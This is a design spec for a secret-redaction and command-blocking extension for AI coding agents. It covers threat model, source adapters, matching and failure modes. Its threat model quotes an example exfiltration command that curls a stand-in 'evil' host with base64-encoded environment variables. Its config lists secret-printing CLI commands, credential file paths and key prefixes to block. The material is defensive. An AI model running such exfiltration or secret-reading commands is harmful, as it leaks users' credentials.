

# Spec

_Draft 2026-10-29 UTC, from a grilling session. Open questions are at the end._

## Threat model

- **In scope: accidental leaks.** A well-meaning agent prints secrets: `env`, `cat .env`, `forge -vvvv`, `mise env`, debug logs.
- **Out of scope: a hostile or prompt-injected agent.** For example `curl evil?k=$(printenv | base64)` runs before any output is redacted, and encoding defeats exact matching. Defending against that needs agents not inheriting secrets, `varlock proxy`, or a sandbox. Never present this tool as protection against it.

## Decisions

| # | Decision | Why |
| --- | --- | --- |
| D1 | Defend against accidental leaks only | Matches past incidents. Redaction can't stop deliberate exfiltration |
| D2 | pi gets redaction and blocks. Claude Code gets a `PreToolUse` hook for **blocks only** | CC issue #54196: `updatedToolOutput` is ignored for Bash. CC also writes raw `toolUseResult` to its JSONL before hooks run |
| D3 | Secret sources are pluggable adapters (see below) | Supports mise, 1Password, pa, or any secret manager without hard-coding |
| D4 | Exact values plus vendor prefixes (`sk-ant-`, `ghp_`, `github_pat_`, `AKIA`, `xox[bp]-`). **No** generic 64-hex, entropy or keyword rules | Web3 repos: tx hashes, addresses and storage slots must survive. pi-secret-safe fails exactly here |
| D5 | Fail-closed, scoped. A required source that fails in a repo where it applies blocks bash, read and MCP tools. Elsewhere: warn. `/motus continue` accepts partial protection for the session | Never silently unprotected; no nagging in unrelated repos |
| D6 | No `/motus off` | Turning redaction off means sending secrets to the model. Read values in your own terminal |
| D7 | Placeholder `[REDACTED:NAME]` | The model can still reason about which variable was there; names aren't secret |
| D8 | Block credential files by path; never parse them | The agent never needs them. A leaked age master key exposes everything encrypted with it |
| D9 | Block secret-manager CLIs that print values (`pa show`, `gh auth token`, `op read`, …), configurable | 759 pa entries can't be pre-loaded for exact-match redaction |
| D10 | Blocks can't be lifted from inside pi | Safety decisions belong to the human, outside the agent |
| D11 | One shared config file, `~/.config/pi-motus/config.json`, for the pi extension and the CC hook | One list to maintain. Shared config, not shared code |
| D12 | Build our own; borrow MIT code with credit | See `research/oss-survey.md`: no fork base (the closest one has no public repo and redacts `0x` addresses) |
| D13 | Own repo; publish to npm later | Testable, creditable, and the gap is real (fail-closed, command sources, web3-safe defaults) |

## Architecture



### pi events

| Event | Job |
| --- | --- |
| `session_start` | Load sources into memory. Set degraded state. Notify counts, never values |
| `tool_call` | Block paths (read args; bash commands mentioning them) and commands (word at command position, after `\|`, `;`, `&&`, `$(`). Block bash/read/MCP while degraded |
| `tool_result` | Redact `content` **and** `structuredContent` (pi docs: replacing only `content` drops `structuredContent`) |
| `message_end` | Redact finalized assistant and user messages before they're saved |
| `input` | Redact secrets pasted into prompts before they're saved |
| `before_provider_request` | Final scan of the serialized payload. On internal error, send an empty payload rather than raw (pattern from `pi-redact`) |

Still to verify by test: `tool_result` changes are what gets written to the session JSONL. `tool_execution_update` streaming may show raw output locally; acceptable, since it never reaches the model.

### Matching

- Exact values, longest first, with a minimum length of 8. Shorter values are ignored, with a warning that names the key.
- Derived forms are generated in the core, not the adapters:
  - hex with and without `0x`
  - the userinfo and path parts of URLs (Alchemy/dRPC RPC URLs carry the key in the path)
  - lowercase and uppercase hex variants
- Not covered: base64, split or partial values.
- Vendor prefixes catch keys that were never loaded.

## Source adapters (D3)

```ts
interface SecretSource {
  id: string;
  appliesTo(ctx: { cwd: string }): Promise<boolean>;
  load(ctx: { cwd: string; signal: AbortSignal }): Promise<Secret[]>;
}

interface Secret {
  name: string;
  value: string;
  source: string;
}
```

- `load` **throws** on failure. Never return an empty list for an error (the bug in `pi-fnox`).
- `appliesTo` drives D5. A failing required source blocks only where it applies. Example: mise applies when the cwd has an age-encrypted config.
- Adapters return secrets. The core owns derived forms, matching and policy.
- Each source config has `required: boolean` (default `true`), a timeout (default 10 s) and adapter options.

| Adapter | Loads | Notes |
| --- | --- | --- |
| `env` | `process.env` whose names match `KEY\|TOKEN\|SECRET\|PASS\|PRIVATE\|MNEMONIC\|DATABASE_URL\|AUTH\|CREDENTIAL\|DSN`, with a name denylist (e.g. `SSH_AUTH_SOCK`, `KITTY_PUBLIC_KEY`) | Always on and can't fail |
| `command` | Any command printing `{NAME: value}` JSON on stdout. Non-zero exit = failure | Generic fallback for any manager |
| `mise` | For each listed config plus the cwd: keys stored as `{ age = ... }`, decrypted with `mise env --json -C <dir>` (`MISE_ENV` for `config.<env>.toml`) | Option: path to a list file (can reuse `~/.config/rotate-mise-secrets/files`). Warns when cwd age keys are missing from the list (drift) |
| `1password` | Resolves `op://` references from configured refs and/or env values that are references (`op read`) | Biometric/session prompts at startup are an open question |
| `pa` | Resolves **explicitly listed** entries only (`pa show <name>`) | Every decrypt needs a YubiKey touch once the plain key is off disk. Startup loading is an open question |

Adapters are built in at first; split into packages only if a third party wants one.

## Config (`~/.config/pi-motus/config.json`)

```json
{
  "sources": [
    { "type": "env" },
    { "type": "mise", "listFile": "~/.config/rotate-mise-secrets/files" }
  ],
  "prefixes": ["sk-ant-", "ghp_", "github_pat_", "AKIA", "xox[bp]-"],
  "blockPaths": ["~/.config/mise/age.txt", "$PA_DIR/identities", "..."],
  "blockCommands": ["pa", "gh auth token", "op read", "mise env"],
  "minValueLength": 8
}
```

- The pi extension reads all of it.
- The CC hook reads `blockPaths` and `blockCommands` only.
- Config never contains values. Validate on load; invalid config counts as a failed required source (D5).

## Failure modes

| Failure | Behavior |
| --- | --- |
| Required source throws or times out, and applies to the cwd | Degraded state: block bash/read/MCP with a reason; `/motus continue` overrides for the session |
| Required source fails, doesn't apply to the cwd | Warn once |
| One of N mise files fails to decrypt | Redact what loaded; name the failed file in the warning; degraded only if it covers the cwd |
| Redaction hook throws | `tool_result`: replace output with an error marker, never raw. `before_provider_request`: send an empty payload |
| Invalid config | Same as a failed required source |

## Claude Code hook (D2)

- One `PreToolUse` command hook that reads the shared config and denies matching `Read` paths and `Bash` commands.
- It does no redaction until #54196 is fixed. Revisit then.

## Open questions

1. `pa` and 1Password adapters: load at session start (touch or biometric prompt every session), lazily on first match (impossible: we need the value to match), or only blocks? Leaning: blocks by default; startup loading opt-in per entry.
2. Implementation language and runtime: TypeScript run by pi directly; test runner (`bun test` vs vitest).
3. Package name; whether the CC hook ships in the same package.
4. Whether to scrub old sessions with `geheim` (leak audit 2026-10-29 found 0 of 68 values in stored sessions, so low priority).
